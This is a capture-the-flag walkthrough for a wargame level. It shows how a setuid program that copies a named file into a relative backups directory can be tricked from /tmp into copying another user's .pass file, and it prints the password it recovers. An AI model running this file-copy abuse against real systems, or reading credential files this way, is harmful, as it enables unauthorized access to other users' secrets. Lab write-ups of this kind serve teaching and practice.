 # level08
The program require a filename as argument `argv[1]`

```console
$ ./level08
Usage: ./level08 filename
ERROR: Failed to open (null)
```


below the different files
```console
.:
drwxrwx---+ 1 level09 users      60 Oct 19  2016 backups
-rwsr-s---+ 1 level09 users   12975 Oct 19  2016 level08

./backups:
-rwxrwx---+ 1 level09 users    32 Sep  3 12:21 .log
```

## Step 1: Understand the program

1. The program tries to open `./backups/.log` file
2. The program tries to open `argv[1]` file
3. The program tries to create and open `./backups/argv[1]` file
4. Finally the program write the content of `argv[1]` file into `./backups/argv[1]` file

## Goal
Open `/home/users/level09/.pass` file and write its content into a writable file

## Step 2:
Change directory to `/tmp` to be able to create a file
```bash
cd /tmp
```

## Step 3: Let's Try:
```bash
/tmp$ /home/users/level08/level08 /home/users/level09/.pass
ERROR: Failed to open ./backups/.log
```

We need to create a file `./backups/.log`  

```bash
/tmp$ mkdir -p backups/
/tmp$ touch backups/.log
```

## Step 4: Let's try again
```bash
/tmp$ /home/users/level08/level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

We need to create a file `./backups//home/users/level09/.pass`  

```bash
/tmp$ mkdir -p backups/home/users/level09/
```

Then, it works.
```console
/tmp$ /home/users/level08/level08 /home/users/level09/.pass
/tmp$ cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```


> the two `//` in the path change nothing, it the same as only one `/`

